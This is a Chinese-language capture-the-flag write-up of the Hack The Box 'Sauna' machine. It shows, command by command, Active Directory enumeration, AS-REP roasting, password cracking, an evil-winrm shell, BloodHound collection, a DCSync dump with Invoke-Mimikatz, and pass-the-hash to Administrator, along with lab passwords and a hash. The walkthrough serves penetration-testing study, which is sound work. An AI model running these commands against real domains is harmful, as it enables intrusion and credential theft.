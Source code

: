 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting / DCsync
---
```


# ✔️ Sauna

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA sauna 10.129.77.184 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 发现开放目标系统开放了80端口，查看后并没有发现什么特别有用的信息，但是发现了很多用户名，先收集起来也许后续会有用：

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 对该80端口进行常规的隐藏文件/目录扫描，没什么收获：

```bash
gobuster dir -u http://10.129.77.184/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* dirsearch也没有什么收获：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用多个工具尝试无密码登录SMB服务，倒是成功了，但是还是无收获：

```bash
smbclient -N -L 10.129.77.184
```

<figure><img src="../../.gitbook/assets/7 (9).png" alt=""><figcaption></figcaption></figure>

```bash
crackmapexec smb 10.129.77.184
```

<figure><img src="../../.gitbook/assets/8 (9).png" alt=""><figcaption></figcaption></figure>

* 使用ldapsearch针对目标的LDAP目录树进行遍历的域名查询，获取到：**DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -s base namingcontexts
```

<figure><img src="../../.gitbook/assets/9 (7).png" alt=""><figcaption></figcaption></figure>

* 再次进行递归查询，发现有用信息：**dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' -s sub 
```

* 将收集到的所有用户名及其改写的变体制作成一个username.txt文件：

<figure><img src="../../.gitbook/assets/10 (7).png" alt=""><figcaption></figcaption></figure>

* 因为已经收集到一些专门针对目标系统的有效用户名，所以可以尝试使用kerbrute进行一下暴破，找到几个用户名：

```
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL username.txt --dc 10.129.95.180
```

<figure><img src="../../.gitbook/assets/11 (6).png" alt=""><figcaption></figcaption></figure>

* 使用GetNPUsers.py从username.txt中找出易受攻击的用户hash:

```bash
./GetNPUsers.Py 'EGOTISTICAL-BANK.LOCAL/' -usersfile username.txt -format hashcat -outputfile hashes.aspro -dc-ip 10.129.95.180
```

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 从这个hash中得知是fsmith这个账户的，破解该hash后获得明文密码：**Thestrokes23**

<figure><img src="../../.gitbook/assets/13 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 使用evil-winrm和刚才得到的有效凭证，登录目标系统成功获得shell：

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

<figure><img src="../../.gitbook/assets/16 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 因为systeminfo.exe程序在目标中被限制，所以无法获得信息。随后枚举域内用户账户，得到6个账户：

```bash
net user /domain
# 分别枚举这6个账户名，查看它们的组成员关系：
net user fsmith /domain
```

<figure><img src="../../.gitbook/assets/18 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为常规的手动枚举并没有什么其他有用信息，所以决定使用bloodhound对该机器的所有信息进行分析，此时继续使用evil-winrm的upload模块，上传sharphound.exe到目标机器中进行信息收集：

```bash
# evil-winrm：
upload /root/Documents/HTB-AD/sauna/tools/sharphound.exe
# 上传完成后直接运行即可，后续会生成一个zip文件：
.\sharphound.exe
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将这个压缩文件下载下来，直接拖入Bloodhound里就行了：

```bash
# evil-winrm:
download 20240713.............._BloodHound.zip
```

<figure><img src="../../.gitbook/assets/28 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在查看SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL这个账户时发现，该账户有权限访问目标域上的所有更改（GetChangesAll / GetChanges），这意味着我可以执行DCsync攻击：

<figure><img src="../../.gitbook/assets/29 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 接下来继续使用evil-winrm上传winPEAS到目标中进行再次信息收集：

```bash
upload upload /root/Documents/HTB-AD/sauna/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/30 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 输出信息中包含了SVC\_LOANMGR账户的用户名和密码：

<figure><img src="../../.gitbook/assets/31 (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 利用svc\_loanmanager这个账户的凭证，用evil-winrm登录到目标中：

```bash
evil-winrm -i 10.129.82.224 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

<figure><img src="../../.gitbook/assets/32 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传mimikatz到目标中，然后用DCsync攻击转储内置域管理员账户哈希：

```bash
# 上传：
upload Invoke-Mimikatz.ps1
# 使用mimikatz：
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:Egotistical-bank.local /user:Administrator"'
```

<figure><img src="../../.gitbook/assets/33 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/34 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/35 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator账户及其hash值：

<figure><img src="../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

* 利用hash登录，获得Administrator权限的shell，至此已完全控制DC，get flag!

```bash
evil-winrm -i 10.129.82.224 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../../.gitbook/assets/37 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例机器中途重置后IP有变化，但其利用过程无影响。
{% endhint %}
